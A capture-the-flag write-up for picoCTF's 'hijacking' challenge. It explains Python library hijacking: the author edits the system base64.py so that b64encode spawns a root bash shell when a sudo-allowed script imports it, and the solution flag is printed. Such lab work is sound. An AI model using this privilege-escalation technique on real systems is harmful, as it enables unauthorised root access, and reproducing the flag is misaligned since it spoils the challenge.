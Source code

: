# hijacking

**200 points**

AUTHOR: THEONESTE BYAGUTANGAZA

Description
Getting root access can allow you to read the flag. Luckily there is a python file that you might like to play with.
Through Social engineering, we've got the credentials to use on the server. SSH is running on the server.

*Note:* This challenge launches an instance on demand.

___

Wooooooooo python library hijacking!

So, google searching `using python for privilege escalation in linux` I got an [article](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8) which detailed how to do just that (except the spawning shell part which I got from a youtube video).

Connecting to the server I checked what I can run with sudo with `sudo -l` and got:

```
User picoctf may run the following commands on challenge:
    (ALL) /usr/bin/vi
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py
```

Cool we can run the script with sudo.

Now inside the script we have an import of `base64`, we could hijack a function used by this library.

I changed the code to just run the commands:

```python
hi = "hi"
out = base64.b64encode(hi.encode('utf-8')).decode('utf-8')

print(out)

```

We need to hijack the function `b64encode` specifically to get root, and we could do so by editing the original library `base64.py`.

The file was located inside `/usr/lib/python3.8/base64.py` so running `vim` on it, I could edit the file.

I imported `pty` and at the start of the function `b64encode`, I added the line:

```python
def b64encode(s, altchars=None):
    """Encode the bytes-like object s using Base64 and return a bytes object.

    Optional altchars should be a byte string of length 2 which specifies an
    alternative alphabet for the '+' and '/' characters.  This allows an
    application to e.g. generate url or filesystem safe Base64 strings.
    """
    pty.spawn('/bin/bash')
    
    #code...
```

Finally, we can run the file with `sudo /usr/bin/python3 /home/picoctf/.server.py` got me a root shell!

Going into the directory `/challenge` and catting the file gives the flag:

> picoCTF{pYth0nn_libraryH!j@CK!n9_0083cb0b}
